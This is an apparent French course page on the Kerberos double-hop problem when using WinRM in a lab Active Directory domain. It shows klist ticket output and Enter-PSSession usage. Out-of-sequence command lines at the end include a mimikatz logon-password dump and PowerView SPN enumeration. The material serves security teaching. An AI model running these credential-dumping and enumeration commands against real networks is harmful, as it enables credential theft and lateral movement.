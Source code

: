 ```
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC01.INLANEFREIGHT.LOCAL

#3>     Client: backupadm @ INLANEFREIGHT.LOCAL
        Server: cifs/DC01.INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 6/28/2022 9:13:38 (local)
        End Time:   6/28/2022 19:13:38 (local)
        Renew Time: 7/5/2022 9:13:38 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC01.INLANEFREIGHT.LOCAL

```

* * * * *

Solution de contournement n°2 : enregistrer la configuration de la session PS
-----------------------------------------------------------------------------

Nous avons vu ce que nous pouvons faire pour surmonter ce problème lors de l'utilisation d'un outil tel que `evil-winrm`la connexion à un hôte via WinRM. Que se passe-t-il si nous sommes sur un hôte appartenant à un domaine et pouvons nous connecter à distance à un autre à l'aide de WinRM ? Ou nous travaillons à partir d'un hôte d'attaque Windows et nous nous connectons à notre cible via WinRM à l'aide de l' [applet de commande Enter-PSSession](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2) ? Ici, nous avons une autre option pour modifier notre configuration afin de pouvoir interagir directement avec le contrôleur de domaine ou d'autres hôtes/ressources sans avoir à configurer un objet PSCredential et inclure des informations d'identification avec chaque commande (ce qui peut ne pas être une option avec certains outils).

Commençons par établir une session WinRM sur l'hôte distant.

  Problème de "double saut" Kerberos

```
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL -Credential inlanefreight\backupadm

```

Si nous vérifions les tickets mis en cache à l'aide de `klist`, nous verrons que le même problème existe. En raison du problème de double saut, nous ne pouvons interagir qu'avec les ressources de notre session en cours, mais nous ne pouvons pas accéder directement au contrôleur de domaine à l'aide de PowerView. Nous pouvons voir que notre TGS actuel est bon pour accéder au service HTTP sur la cible puisque nous nous sommes connectés via WinRM, qui utilise des requêtes SOAP (Simple Object Access Protocol) au format XML pour communiquer via HTTP, c'est donc logique.

  Problème de "double saut" Kerberos

```
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x11e387

Cached Tickets: (1)

#0>     Client: backupadm @ INLANEFREIGHT.LOCAL
       Server: HTTP/ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
       KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
       Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
       Start Time: 6/28/2022 9:09:19 (local)
       End Time:   6/28/2022 19:09:19 (local)
       Renew Time: 0
       Session Key Type: AES-256-CTS-HMAC-SHA1-96
```

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname